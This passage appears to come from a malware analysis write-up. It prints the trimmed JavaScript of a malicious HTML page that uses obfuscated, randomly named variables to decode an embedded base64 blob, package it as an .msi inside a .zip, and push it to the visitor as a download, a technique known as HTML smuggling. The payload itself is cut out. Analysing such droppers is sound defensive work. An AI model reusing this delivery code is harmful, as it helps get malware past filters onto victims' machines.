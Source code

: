 This is a very large HTML that generates and delivers the payload. This can be found in the file `output.html.vir.zip`

5) If we look at the HTML we see a large variable with 996696 chars. The tail of the file only contains information about the free hosting service. If we trim the large variable and remove the tail, we have the following code:

```html
<html>
<head>
</head>
<body>
<script>
var YFuthSYribDtaVVHKPmPE = jcdebyaxkhtiqruzpgfv("");
var jheuyApsUxhmdNuwobFZR = new JSZip();
var anznCUaNOdcmcUvZFnxFL = "."+"z"+"i"+"p";
var hysWNeVEAQwzkrSOgbtDH = ".msi";
var FVAnuBHuvwnXomGKpNXRE = sxgdzqecviflnatjbpor(5)+iajwrzxoydkpufnbetvc(13)+""+anznCUaNOdcmcUvZFnxFL;
var DSBbKKTVMhmQASKEuYFII = sxgdzqecviflnatjbpor(5)+sxgdzqecviflnatjbpor(10)+PbNGIBjGOLYsIWldjvXpC(1)+hysWNeVEAQwzkrSOgbtDH;

function iajwrzxoydkpufnbetvc(tam) {
    var OpDZTVnETfLWIRGCmcMnJ = "";
    var ETvwlqfMoTVtJDcWGaiWM = "ABCDEFGHIJLMNOPQRSTUVXZWKYabcdefghijlmnopqrstuvxzwky1234567890";
    for (var i = 0; i < tam; i++)
        OpDZTVnETfLWIRGCmcMnJ += ETvwlqfMoTVtJDcWGaiWM.charAt(Math.floor(Math.random() * ETvwlqfMoTVtJDcWGaiWM.length));
    return OpDZTVnETfLWIRGCmcMnJ;
}

function sxgdzqecviflnatjbpor(tam) {
var jSzwDZnBGayLSFOkKIrwI = "";
var GkZFGOEtXZCywlHksbCaW = "ABCDEFGHIJLMNOPQRSTUVXZWKY";
for (var i = 0; i < tam; i++)
  jSzwDZnBGayLSFOkKIrwI += GkZFGOEtXZCywlHksbCaW.charAt(Math.floor(Math.random() * GkZFGOEtXZCywlHksbCaW.length));
return jSzwDZnBGayLSFOkKIrwI;
}


function PbNGIBjGOLYsIWldjvXpC(tam) {
var dsTpJKyPMKHqryjfXhRkT = "";
var rSQxooyKYzUOZirqCgygD = "���px;a~���M�.��";
for (var i = 0; i < tam; i++)
  dsTpJKyPMKHqryjfXhRkT += rSQxooyKYzUOZirqCgygD.charAt(Math.floor(Math.random() * rSQxooyKYzUOZirqCgygD.length));
return dsTpJKyPMKHqryjfXhRkT;
}

function jcdebyaxkhtiqruzpgfv(KoFoqunheCjkoIQcfJjzM) {
KoFoqunheCjkoIQcfJjzM = "0M8R4K7oIHgxGDAZlkmbaDv_REDUCED_FILE_AAAAAAAAAAAAAAAA==";
  var vNICYOSgXroXtNzjpDDaQ = window.atob(KoFoqunheCjkoIQcfJjzM);
  var len = vNICYOSgXroXtNzjpDDaQ.length;
  var KnuycpMhVsLHdTUTPhxcK = new Uint8Array( len );
  for (var i = 0; i < len; i++) {
    KnuycpMhVsLHdTUTPhxcK[i] = vNICYOSgXroXtNzjpDDaQ.charCodeAt(i);
  }
  return KnuycpMhVsLHdTUTPhxcK.buffer;
}
      jheuyApsUxhmdNuwobFZR.file(DSBbKKTVMhmQASKEuYFII,YFuthSYribDtaVVHKPmPE,{binary:true});
      jheuyApsUxhmdNuwobFZR.generateAsync({ type: "Blob" ,compression: "DEFLATE"}).then(function (content) { 
      saveAs(content, FVAnuBHuvwnXomGKpNXRE);
  });
```